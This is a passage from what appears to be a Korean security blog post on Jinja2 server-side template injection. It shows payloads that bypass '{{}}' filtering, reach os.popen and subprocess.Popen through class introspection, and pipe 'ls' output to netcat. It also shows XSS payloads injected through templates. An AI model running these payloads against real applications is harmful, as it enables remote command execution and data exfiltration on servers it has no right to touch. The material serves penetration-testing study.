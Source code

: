 ## {{}} Filtering → {% %}

```python
{% if(config.__class__.__init__.__globals__['os'].popen('ls | nc 127.0.0.1 8080')) %}{% endif %}
{% for i in range(0,500) %} {% if(((''.__class__.__mro__[1].__subclasses__()[i])|string) == "<class 'subprocess.Popen'>") %} {% if(''.__class__.__mro__[1].__subclasses__()[i]('ls | nc 127.0.0.1 8080', shell=True, stdout=-1)) %} {% endif %} {% endif %} {% endfor %}
```

# SSTI for XSS

> SSTI 취약점이 존재할경우 XSS 취약점 또한 함께 점검해보자

```
{{'<script>alert(1);</script>'}}
OR
{{'<script>alert(1);</script>'|safe}}
```

**![그림 1-7](/assets/image/vuln/web-vuln/Server%20Side%20Template%20Injection%20(SSTI)/image-6.png)<u style=color:"red">이 외에도 SSTI를 통한 연계 공격과 수많은 Payload 들이 존재하며, 각 상황에 맞게 적절하게 찾아봐야할듯하다.</u>**

# Referance
- https://www.hahwul.com/cullinan/ssti/
- https://portswigger.net/web-security/server-side-template-injection
- https://core-research-team.github.io/2021-05-01/Server-Side-Template-Injection(SSTI)
- https://me2nuk.com/SSTI-Vulnerability/
- https://dohunny.tistory.com/20
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
- https://en.wikipedia.org/wiki/Web_template_system